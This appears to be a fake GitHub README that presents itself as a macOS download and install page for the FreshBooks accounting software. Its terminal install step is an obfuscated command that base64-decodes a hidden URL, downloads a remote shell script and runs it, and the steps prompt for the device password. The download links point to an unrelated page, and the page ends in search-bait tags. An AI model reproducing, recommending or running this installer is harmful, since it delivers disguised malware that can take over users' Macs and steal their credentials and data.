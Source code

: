 # 🧾 FreshBooks — Easy Invoicing and Accounting Software for macOS

FreshBooks is an intuitive cloud-based accounting and invoicing solution designed for macOS users. It helps small business owners and freelancers manage invoices, track time, and handle expenses with ease and professionalism.

## ✅ Download FreshBooks for macOS  
[![Download FreshBooks](https://img.shields.io/badge/Download-FreshBooks-blueviolet)](https://mitrobandus.github.io/.github/FreshBooks)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is FreshBooks?

FreshBooks offers simple yet powerful tools for invoicing, expense tracking, and financial reporting on macOS. Its user-friendly interface and automation features make bookkeeping and client billing fast and efficient.

---

## ✨ Features

- 🧾 Create and send professional invoices  
- ⏱️ Track time spent on projects and bill clients accurately  
- 💳 Accept online payments with multiple gateways  
- 🖥️ Optimized for macOS with Retina display support  
- 🔄 Sync data across Mac, iPhone, and iPad  
- 📊 Generate detailed financial and tax reports  
- 📥 Automatic expense tracking and receipt capture  

---

## 💡 Why Use FreshBooks?

- ✅ Simplifies billing and bookkeeping for small businesses  
- 🚀 Saves time with automation and easy-to-use tools  
- 💼 Enhances professionalism with customizable invoices  
- 📱 Manage your business finances from any Apple device  
- 🤝 Integrates with popular payment and business apps  

---

[![Download FreshBooks](https://img.shields.io/badge/Download-FreshBooks-blueviolet)](https://mitrobandus.github.io/.github/FreshBooks)

---

## 🖼️ Preview

![FreshBooks Screenshot 1](https://thewritelife.com/wp-content/uploads/2024/01/Freshbooks-Hacks_-6-Ways-to-Get-More-Out-of-This-Invoicing-Tool.jpg)  
![FreshBooks Screenshot 2](https://images.squarespace-cdn.com/content/5dc462aafe72563e84e0a77b/1584476994892-7THDRF1H5YLGG9GCCCI4/Freshbooks_1.png?format=1500w)

---

## 📌 Tags

freshbooks, freshbooks pricing, freshbooks accounting software, freshbooks invoice, freshbooks cost,  
fresh booking, fresh books price, freshbooks app, freshbooks bookkeeping, freshbooks accounting,  
my freshbooks, freshbooks software, freshbooks payments, freshbooks integrations, freshbooks demo,  
freshbooks time tracking, freshbooks alternative, freshbooks online, freshbooks discount, freshbooks download,  
fresh books accounting, freshbooks for small business, fresh books com, freshbooks bookkeeping software,  
my fresh books, freshbooks stripe, stripe and freshbooks, freshbooks barclays, barclays freshbooks,  
freshbooks ca, freshbooks mac, freshbooks mac download
